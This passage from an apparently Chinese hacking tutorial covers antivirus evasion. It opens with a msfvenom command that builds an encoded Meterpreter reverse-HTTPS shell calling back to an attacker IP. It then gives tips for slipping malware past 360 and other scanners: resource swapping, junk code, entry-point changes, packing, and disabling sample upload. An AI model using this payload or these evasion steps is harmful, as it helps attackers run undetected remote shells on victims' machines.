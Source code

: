     msfvenom -p windows/meterpreter/reverse_https lhost=192.168.241.132 lport=443 -e x86/shikata_ga_nai -i 5 -f raw > test2.c
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007233142527.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

运行上线![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007233151535.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

* * *

#### 9.1.2 人人都能过杀软

**适合人群：**

本人不懂c汇编等语言，但我一样能过杀毒（360/诺顿／avg／nod32等）

我也没人教就是看了网上教程会了一点点！如果各位大神你们看着不爽，那么请你忍忍不要喷！

**免杀方法：**

对于一个不懂汇编的人来说，我是怎么过杀软的呢？-
后面将会用360做为实例来给搭建演示。-
1、观察杀毒软件报的病毒名称，如果你修改后文件能正常使用并且杀软报毒名称变了，这样一般就可以过掉。

2、不管你怎么换资源或加壳杀软一只报同样的名字，那么就去定位一下特征码。

3、不同的杀毒软件免杀的方法略有不同。

例如：360报qvm7免杀方法是替换资源文件和版本信息。

4、本人常用的免杀方法：替换资源／加花／修改入口点／加壳等。

**0x00 免杀前的准备**

本次实例将会使用360杀毒来给大家演示。

病毒文件主要以提权EXP老给大家演示！

1、安装360杀毒软件，并把360杀毒的几个引擎全部安装上更新最新病毒库。

2、我在测试360杀毒的时候发现过几个问题：

    a) 不管你怎么杀360就是不报毒！那么请还原虚拟机！
    
    b)360杀毒安装包。有老版本的尽量使用老版本的安装包。应为新版本的即使你关了上传还是会上传。
    
    c)本人使用的是360sd_std_4.2.2.4092版本。在安装好后系统防火墙会提示是否开启安全卫士！具体名字记不清楚了，这个地方直接选择拦截就行了，没什么用。如果你选择的放行，那后面你做免杀的时候需要全部关掉360杀毒，选择拦截的话，只需要禁用360杀毒的实时防护功能。
    
        

3、360杀毒在全部安装完成和补丁升级成功之后需要关掉：可疑文件上传。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007233614276.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
4、在做免杀时请在断网环境下做！

5、360有5个引擎，再过的时候可以一个个去过。

6、需要用到工具包：小七免杀工具包（其实就用几个工具而已）-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007233639630.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**0X01 Ms15-051过360杀毒4引擎**
